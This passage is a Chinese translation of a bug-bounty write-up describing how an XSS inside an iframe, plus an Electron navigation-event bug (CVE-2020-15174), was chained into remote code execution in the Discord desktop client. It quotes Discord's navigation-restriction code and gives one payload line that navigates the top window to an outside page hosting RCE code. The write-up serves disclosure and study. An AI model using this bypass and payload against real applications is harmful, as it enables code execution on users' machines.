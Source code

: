 最后我又找到了一个 XSS，但是 JavaScript 仍然在 iframe 上执行。由于 Electron 不会将 “web 页面外部的 JavaScript 代码” 加载到 iframe 中，因此即使我覆盖了 iframe 上的 JavaScript 内置方法，我也不能影响 Node.js 的关键部分。要实现 RCE，我们需要跳出 iframe，在顶层上下文中执行 JavaScript。这需要从 iframe 打开一个新窗口，或者从 iframe 导航顶部窗口到另一个 URL。  

我查看了相关代码，发现主进程代码中使用 “new-window” 和“will- navigation”事件限制导航的代码:

```
mainWindow.webContents.on('new-window', (e, windowURL, frameName, disposition, options) => {
  e.preventDefault();
  if (frameName.startsWith(DISCORD\_NAMESPACE) && windowURL.startsWith(WEBAPP\_ENDPOINT)) {
    popoutWindows.openOrFocusWindow(e, windowURL, frameName, options);
  } else {
    \_electron.shell.openExternal(windowURL);
  }
});
\[...\]
mainWindow.webContents.on('will-navigate', (evt, url) => {
  if (!insideAuthFlow && !url.startsWith(WEBAPP\_ENDPOINT)) {
    evt.preventDefault();
  }
});
```

我本来以为这段代码把我寻找 RCE 的路封死了，它看起来毫无破绽，但是在测试的过程中我发现了有意思的东西。  

**漏洞三：功能禁用限制的绕过 (CVE-2020-15174)**
----------------------------------

我认为代码写的没什么问题，但在我检查顶部导航在 iframe 中是否会被阻塞时，我却惊奇地发现，因为某些原因，导航并没有被阻塞。从代码来看，在导航发生之前，”will-navigation” 事件应该会尝试捕获它，并被`preventDefault()`拒绝，但实际上没有。

我创建了一个小型 Electron 应用程序用来测试这个发现。我发现，由于某种原因，”will- navigation” 事件没有从 iframe 开始的顶部导航中发出。确切地说，如果 top 的域和 iframe 的域在同一个域，事件就会被发出，但是如果它在不同的域，事件就不会被发出。我认为这应该是 Electron 的 bug，并决定稍后向 Electron 报告。

在这个 bug 的帮助下，我最终成功绕过导航限制。我最后需要做的就是使用 iframe 的 XSS 漏洞导航到一个含有 RCE 代码的页面即可，比如说 top.location=”//l0.cm/discord\_calc.html”

最终，结合三个漏洞，我成功实现了 RCE，下面是视频演示。

https://youtu.be/0f3RrvC-zGI  
（点击 “阅读原文” 查看链接）

**总结**
------

我向 Discord 的 src 报告了漏洞。最终 RCE 漏洞获得 5000 美元的奖励，Sketchfab 的 XSS 漏洞获得了 300 美元奖励。第三个漏洞”will-navigate” 事件不能正常发出获得了一个 CVE 编号 (CVE-2020-15174)。

**参考**
------

https://speakerdeck.com/masatokinugawa/electron-abusing-the-lack-of-context-isolation-curecon-en

（点击 “阅读原文” 查看链接）

**译文声明**  

译文仅供参考，具体内容表达以及含义原文为准。
